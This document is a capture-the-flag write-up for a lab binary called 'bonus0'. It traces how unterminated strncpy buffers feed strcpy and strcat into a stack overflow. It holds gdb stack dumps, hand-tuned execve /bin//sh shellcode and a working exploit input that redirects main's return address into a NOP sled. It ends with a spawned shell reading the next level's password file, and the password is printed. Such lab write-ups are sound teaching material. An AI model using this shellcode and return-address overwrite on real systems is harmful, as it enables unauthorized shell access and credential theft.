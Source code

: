 ## Don't forget, sentences end with a point and strings with a '\0' (bonus0)

With this [binary](source.c) we're back to good old C and classic buffer
overflows. There's three functions including _main_. The _main_ has a local
buffer of 54 bytes, and calls the function _pp_ on it. There we have two other
buffers each 20 bytes long. _pp_ will call the third function _p_ on both to
fill them with some user input. After that the two buffers are copied and
insecurely concatenated in the buffer provided by the _main_ function.

After some gdb analysis, we can see the state of the stack from _p_:

```shell
# print part of the stack from the end p's buffer
(gdb) x/56wx 0xbffffa88

0xbffffa88:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffa98:     0x61616161      0x00616161      0x00000001      0x00000000
0xbffffaa8:     0xbffffb08     [0x0804854c]     0xbffffaec      0x080486a0
0xbffffab8:     0x00000000      0x00000001      0x00000000      0x00000000
0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffad8:     0x61616161      0x61616161      0x61616161      0x61616161
0xbffffae8:     0x61616161      0x62626262      0x62626262      0x62626262
0xbffffaf8:     0x62626262      0x00626262      0xb7fd0ff4      0x00000000
0xbffffb08:     0xbffffb58     [0x080485b9]     0xbffffb26      0x080498d8
0xbffffb18:     0x00000001      0x0804835d      0xb7fd13e4      0x00080000
0xbffffb28:     0x080498d8      0x080485f1      0xffffffff      0xb7e5edc6
0xbffffb38:     0xb7fd0ff4      0xb7e5ee55      0xb7fed280      0x00000000
0xbffffb48:     0x080485d9      0xb7fd0ff4      0x080485d0      0x00000000
0xbffffb58:     0x00000000     [n0xb7e454d3]    0x00000001      0xbffffbf4
```

> The values between brackets are the return addresses of every function in the
> binary.

* 0xbffffa88 -> 0xbffffaa0 (24 bytes): end of _p_'s big read buffer (all "0x61")
* 0xbffffaa8 (4 bytes): 0xbffffb08 _pp_'s ebp
* 0xbffffaac (4 bytes): 0x0804854c _p_'s return address <_pp_+46>
* 0xbffffad8 -> 0xbffffaec (20 bytes): _pp_'s first buffer (all "0x61")
* 0xbffffaec -> 0xbffffb00 (20 bytes): _pp_'s second buffer (all "0x62")
* 0xbffffb08 (4 bytes): 0xbffffb58 _main_'s ebp
* 0xbffffb0c (4 bytes): 0x080485b9 _pp_'s return address <_main_+21>
* 0xbffffb26 -> 0xbffffb58 (50 bytes): _main_'s buffer (random data)
* 0xbffffb58 (4 bytes): 0x00000000 *\_\_libc\_start\_main*'s ebp ? (look that up)
* 0xbffffb5c (4 bytes): 0xb7e454d3 _main_'s return address <*\_\_libc\_start\_main*+243>

> To get this result we passed as a first input the result of this command:
> `python -c 'print "a" * 4095'`, and this one for the second input:
> `python -c 'print "b" * 19'` so that they would not overflow their buffers.

_p_'s address cannot be overwritten since the call to `read` is safe and that
`strncpy` targets _pp_'s buffers. But this where the "unsafety" starts. This
`strncpy` call is dangerous because even though it has an upper bound equal to
the length of the buffers it writes to (20), they will not be null-terminated
by the function if the input data is at least 20 bytes long. Also, since the
buffers are next to each other in memory this means that they will be treated as
one big string even if there are null bytes after the second buffer.

This problem is not just theoretical because these buffers ares used with an
`strcpy` and an `strcat` call. Basically the first buffer is going to be copied
into _main_'s buffer. Then the null byte is going to be replaced with a space,
because yolo, and the second buffer is going to be concatenated to it.

In the best case scenario, if the two input buffers are filled with precisely 19
bytes of data and one null-byte _main_'s buffer should contain 39 bytes of data
and one null-byte:

```shell
# run the binary
./bonus0
 - 
# first input (19 bytes)
aaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes too)
bbbbbbbbbbbbbbbbbbb
# nice output
aaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbb
```

Now just add one byte to the first input:

```shell
# run the binary
./bonus0
 - 
# first input (20 bytes)
aaaaaaaaaaaaaaaaaaaa
 - 
# second input (19 bytes)
bbbbbbbbbbbbbbbbbbb
# nice-ish output
aaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbb bbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
```

What just happened ? The 20 bytes in the first input made it so `strncpy` could
not add a terminating null byte. After the second input is given an `strcpy`
call supposedly copies the 20 bytes of data from the first buffer to _main_'s
buffer. But since it _directly_ followed by the second buffer in memory the call
really copies 39 bytes of data to the destination buffer. And it does not stop
there. Then it replaces the null byte by a space and appends the 19 bytes again
and adds an other null byte. In total this fills the 50 byte buffer with 60
bytes of data (including the null byte).

Basically this means that we can overwrite _main_'s return address. It fills it
with garbage values above, hence the sefault, but we can do something useful
with this. So we have to write 54 bytes of data before overwriting _main_'s
return address.

We could have done a ret2libc (see [level2](../level2)), but this is not
possible because we only overflow the buffer by 10 bytes and ret2libc requires
at least writing 12 bytes to be useful (to be able to pass arguments to the
called function). So what we need is a [shellcode](../shellcode) and as small as
possible. Like this [one](shellstorm_shellcode.asm) found on
[shellstorm](http://shell-storm.org/shellcode/). Although it did not work in our
case. This is because the registers and stack were already set to random values,
not to 0 as if the program just started on the shellcode. So after some
tinkering here is the final shellcode:

```nasm
section .text
global _start
_start:
xor     edx, edx    ; set edx to 0
push    edx         ; push it to the stack to end the command string
push    0x68732f2f  ; "//sh" end of the command string
push    0x6e69622f  ; "/bin" start of the command string
mov     ebx, esp    ; set ebx to the start of the command string
push    edx         ; push a NULL
push    ebx         ; push the command string's address
mov     ecx, esp    ; set ecx as a pointer to the command string's address (argv)
push    0xb         ; push 11 (execve interrupt number)
pop     eax         ; set eax to 11
int     0x80        ; call execve
```

This will execute execve with "/bin//sh" as parameter and open us a shell. Now
the exploit:

```shell
python -c 'print "\x90" * 1000 + "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x6a\x0b\x58\xcd\x80"'
python -c 'print "a" * 14 + "\xbf\xff\xee\x60"[::-1] + "a"'
cat
```

> If the exploit above does not work, it is because of the buffer address in the
> second input. The memory layout does work in mysterious ways. It is affected
> by a lot of factors like the arguments the program is given, the environment,
> and even, apparently, the machine the VM is running on. To fix this, simply
> call use the [ltrace](https://linux.die.net/man/1/ltrace) command to get the
> right address. This would be the address of the destination buffer for the
> first `strncpy` call minus 4100 or so. This should land us inside the buffer.

The shellcode is at the end of the first input. It will be stored inside _p_'s
read buffer. We put a lot of noops operation before it because we do not know
the precise location of the buffer, so we will set _main_'s return address to
the address we got from gdb plus 128 bytes or so. This works because the layout
differences are not really big between the gdb run process and the normal
version. The read buffer is large enough for that so let's use it. So when the
binary receives this input _main_'s return address is replaced with 0xbfffee60,
which is *somewhere* inside _p_'s buffer, the eip skips every noop instructions
to finally encounter and execute the shellcode.

```shell
# run the exploit script above
./exploit.bash | ./bonus0
 - 
 - 
aaaaaaaaaaaaaa`a aaaaaaaaaaaaaa`a
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

